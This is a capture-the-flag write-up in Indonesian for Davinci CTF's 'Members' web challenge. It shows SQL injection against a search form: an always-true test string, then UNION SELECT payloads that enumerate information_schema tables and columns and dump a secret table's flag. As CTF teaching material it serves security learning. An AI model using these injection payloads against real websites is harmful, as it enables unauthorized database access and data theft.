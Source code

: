 # Davinci CTF

## Members

## Informasi Soal
| Kategori | Poin |
| -------- | ---- |
| Website | 10 |

### Deskripsi
> Can you get more information about the members?
>
>http://challs.dvc.tf:1337/members

## Cara Penyelesaian
Dari soal tersebut, saat dibuka menampilkan halaman website menu pencarian maka selanjutnya dicoba untuk menambahkan query SQL Injection pada form pencarian.
```
"or""="
```
Sehingga menampilkan hasil yang sama dari sebelumnya, yaitu semua data dari member.
![image](Images/2_testsql.PNG)

Dari hal tersebut dapat kita asumsikan bahwa website tersebut rentan terhadap SQL Injection pada form search nya. Selanjutnya dilakukan Union Attack dengan menggunakan query sebagai berikut.
```
" and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -
```
Maka didapatkan hasil sebagai berikut.

![image](Images/3_getdb.PNG)

Dimana didalam hasil tersebut terdapat 2 tabel yaitu ```members``` dan ```supra_secret_table``` yang mana selanjutnya dilakukan dump pada tabel ```supra_secret_table``` dengan menggunakan payload sebagai berikut.
```
" and 1=2 union select group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name = "supa_secret_table" -- -
```
Didapatkan hasil yaitu terdapat dua kolom id dan flag.

![image](Images/3_getcolumn.PNG)

Kemudian dari kolom tersebut kita lihat isinya dengan menggunakan query sebagai berikut.
```
" and 1=2 union select group_concat(id,flag),3,4 from supa_secret_table -- - -- -
```
Dan didapatkan flag dari soal.

![image](Images/4_flag.PNG)
## Flag

> dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}
